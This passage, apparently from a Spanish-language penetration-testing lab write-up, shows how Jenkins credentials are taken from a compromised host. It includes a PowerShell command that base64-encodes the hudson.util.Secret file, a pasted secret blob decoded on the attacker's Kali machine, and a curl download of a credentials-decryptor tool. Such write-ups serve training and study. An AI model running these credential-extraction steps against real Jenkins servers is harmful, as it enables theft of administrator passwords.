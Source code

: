 {% code overflow="wrap" %}
```powershell
powershell -c [convert]::ToBase64String((cat ..\..\secrets\hudson.util.Secret -Encoding byte))
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/3127_vmware_0hgwXQHXNP.png" alt=""><figcaption></figcaption></figure>

Procederemos a descodificar y a almacenarlo en un archivo local llamado "hudson.util.Secret".

{% code overflow="wrap" %}
```bash
echo 'gWFQFlTxi+xRdwcz6KgADwG+rsOAg2e3omR3LUopDXUcTQaGCJIswWKIbqgNXAvu2SHL93OiRbnEMeKqYe07PqnX9VWLh77Vtf+Z3jgJ7sa9v3hkJLPMWVUKqWsaMRHOkX30Qfa73XaWhe0ShIGsqROVDA1gS50ToDgNRIEXYRQWSeJY0gZELcUFIrS+r+2LAORHdFzxUeVfXcaalJ3HBhI+Si+pq85MKCcY3uxVpxSgnUrMB5MX4a18UrQ3iug9GHZQN4g6iETVf3u6FBFLSTiyxJ77IVWB1xgep5P66lgfEsqgUL9miuFFBzTsAkzcpBZeiPbwhyrhy/mCWogCddKudAJkHMqEISA3et9RIgA=' | base64 -d > hudson.util.Secret

ls -l hudson.util.Secret
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/3128_vmware_rgIB3erhgS.png" alt=""><figcaption></figcaption></figure>

Una vez obtenido los 3 archivos necesarios para desencriptar la contraseña del usuario "admin" de Jenkins, procederemos a utilizar la siguiente herramienta --> [Jenkins Credentials Decryptor](https://github.com/hoto/jenkins-credentials-decryptor)

Nos descargaremos el binario en nuestra Kali a través del siguiente comando.

{% code overflow="wrap" %}
```bash
curl -L \
  "https://github.com/hoto/jenkins-credentials-decryptor/releases/download/1.2.2/jenkins-credentials-decryptor_1.2.2_$(uname -s)_$(uname -m)" \
   -o jenkins-credentials-decryptor
   
chmod +x jenkins-credentials-decryptor
```
{% endcode %}
